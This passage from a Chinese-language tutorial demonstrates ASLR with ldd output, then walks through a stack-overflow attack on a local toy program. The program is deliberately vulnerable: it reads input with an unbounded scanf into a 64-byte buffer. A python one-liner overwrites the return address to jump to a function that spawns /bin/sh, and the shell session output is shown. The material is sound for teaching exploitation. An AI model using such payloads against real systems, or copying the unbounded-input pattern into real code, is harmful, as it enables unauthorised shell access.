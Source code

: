     $ ldd aslr_test
        linux-vdso.so.1 (0x00007ffe1dd9d000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f26b7e71000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f26b821a000)
    $ ldd aslr_test
        linux-vdso.so.1 (0x00007ffc6a771000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4ec92c0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f4ec9669000)

可见每次运行，这三个动态链接库映射到进程 aslr_test 中的位置都是变化的。


### 4. ROP 攻击

在操作系统和编译器的保护下，程序的栈是不可运行的、栈的位置是随机的，增大了栈溢出攻击的难度。但如果程序的加载位置是固定的、或者程序中存在加载到固定位置的可执行代码，攻击者就可以利用这些固定位置上的代码来实施他的攻击。

考虑下面的代码，其中含有一个 borrowed 函数，作用是打开一个 shell 终端。

    #include <stdio.h>
    #include <unistd.h>

    void borrowed() {
        execl("/bin/sh", NULL, NULL);
    }

    int main() {
        char name[64];
        printf("What's your name?");
        scanf("%s", name);
        printf("Hello, %s!\n", name);
        return 0;
    }

将以上代码另存为 victim.c 编译，并提取汇编码到 victim.asm 中，如下：

    $ gcc -o victim victim.c
    $ objdump -d victim -M intel > victim.asm

打开 victim.asm 可以查到 borrowed 函数的地址为 0x4050b6 。因此，若攻击者利用栈溢出将 main 函数的返回地址改写为 0x4050b6 ，则 main 函数返回时会转到 borrowed 函数运行，打开一个 shell 终端，后面就可以利用终端干很多事情了。现在来试一试吧：

    $ python -c 'print "\x00"*72+"\xb6\x05\x40\x00\x00\x00\x00\x00"' > shellcode
    $ cat shellcode - | ./victim 
    What's your name?Hello, !
    ls
    shellcode  victim  victim.asm  victim.c
    mkdir xxx
    ls
    shellcode  victim  victim.asm  victim.c  xxx
    rmdir xxx
    ls
    shellcode  victim  victim.asm  victim.c

可以看出终端被成功的打开了，并运行了 ls、mkdir、rmdir 命令。

注意以上攻击命令中  cat shellcode \- \| \./victim  的 **"-"** 是不能省略的，否则终端打开后就会立即关闭。

